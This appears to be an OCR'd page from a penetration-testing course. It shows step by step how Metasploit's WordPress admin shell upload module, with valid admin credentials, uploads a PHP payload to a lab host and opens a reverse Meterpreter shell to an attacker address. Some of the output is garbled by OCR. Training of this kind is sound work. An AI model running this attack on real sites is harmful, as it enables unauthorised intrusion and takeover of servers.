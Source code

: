 ## Automating WordPress Exploitation

We can use the Metasploit Framework (MSF) to obtain a reverse shell on the target automatically. This requires valid credentials for an account that has sufficient rights to create files on the webserver.

We can quickly start `MSF` by issuing the following command:

#### Starting Metasploit Framework

  Attacking WordPress with Metasploit

```shell-session
Pangulin@htb[/htb]$ msfconsole
```

---

To obtain the reverse shell, we can use the `wp_admin_shell_upload` module. We can easily search for it inside `MSF`:

#### MSF Search

  Attacking WordPress with Metasploit

```shell-session
msf5 > search wp_admin

Matching Modules
================

#  Name                                       Disclosure Date  Rank       Check  Description
-  ----                                       ---------------  ----       -----  -----------
0  exploit/unix/webapp/wp_admin_shell_upload  2015-02-21       excellent  Yes    WordPress Admin Shell Upload
```

The number `0` in the search results represents the ID for the suggested modules. From here on, we can specify the module by its ID number to save time.

#### Module Selection

  Attacking WordPress with Metasploit

```shell-session
msf5 > use 0

msf5 exploit(unix/webapp/wp_admin_shell_upload) >
```

---

#### Module Options

Each module offers different settings options that we can use to assign precise specifications to `MSF` to ensure the attack's success. We can list these options by issuing the following command:

#### List Options

  Attacking WordPress with Metasploit

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > options

Module options (exploit/unix/webapp/wp_admin_shell_upload):

Name       Current Setting  Required  Description
----       ---------------  --------  -----------
PASSWORD                    yes       The WordPress password to authenticate with
Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
RPORT      80               yes       The target port (TCP)
SSL        false            no        Negotiate SSL/TLS for outgoing connections
TARGETURI  /                yes       The base path to the wordpress application
USERNAME                    yes       The WordPress username to authenticate with
VHOST                       no        HTTP server virtual host


Exploit target:

Id  Name
--  ----
0   WordPress
```

---

## Exploitation

After using the `set` command to make the necessary modifications, we can use the `run` command to execute the module. If all of our parameters are set correctly, it will spawn a reverse shell on the target upon execution.

#### Set Options

  Attacking WordPress with Metasploit

```shell-session
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set rhosts blog.inlanefreight.com
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set username admin
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set password Winter2020
msf5 exploit(unix/webapp/wp_admin_shell_upload) > set lhost 10.10.16.8
msf5 exploit(unix/webapp/wp_admin_shell_upload) > run

[*] Started reverse TCP handler on 10.10.16.8z4444
[*] Authenticating with WordPress using admin:Winter202@...
[+] Authenticated with WordPress
[*] Uploading payload...
[*] Executing the payload at /wp—content/plugins/YtyZGFIhax/uTvAAKrAdp.php...
[*] Sending stage (38247 bytes) to blog.inlanefreight.com
[*] Meterpreter session 1 opened
[+] Deleted uTvAAKrAdp.php

meterpreter > getuid
Server username: www—data (33)
```